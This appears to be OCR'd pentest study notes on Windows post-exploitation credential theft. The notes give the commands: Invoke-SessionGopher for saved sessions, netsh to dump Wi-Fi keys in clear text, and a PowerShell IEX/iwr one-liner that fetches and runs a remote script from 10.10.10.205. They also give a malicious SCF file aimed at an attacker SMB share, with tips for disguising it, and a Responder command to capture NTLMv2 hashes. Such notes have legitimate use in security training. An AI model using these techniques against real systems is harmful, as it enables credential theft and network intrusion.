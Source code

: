 ```PowerShell
Invoke-SessionGopher -Target WINLPE-SRV01
```

### Wifi Passwords

#### Viewing Saved Wireless Networks
Requires local admin access to a user's workstation with a wireless card.
```cmd.exe
netsh wlan show profile
```

#### Retrieving Saved Wireless Passwords
```cmd.exe
netsh wlan show profile ilfreight_corp key=clear
```

## Interacting with Users

A great technique is placing malicious files around heavily accessed file shares in an attempt to retrieve user password hashes to crack offline later.

### Traffic Capture
Using `Wireshark`, `tcpdump`, or `net-creds.py`

### Process Command Lines

#### Running Monitor Script on Target Host
```PowerShell
IEX (iwr 'http//10.10.10.205/procmon.ps1')
```

### SCF on a File Share
If we change the IconFile to an SMB server that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero), we can often capture NTLMv2 password hashes for any users who browse the share.

#### Malicious SCF File
```cmd.exe
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
 Name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). Put an `@` at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. 

#### Starting Responder
```Shell
sudo responder -v -I tun0
```

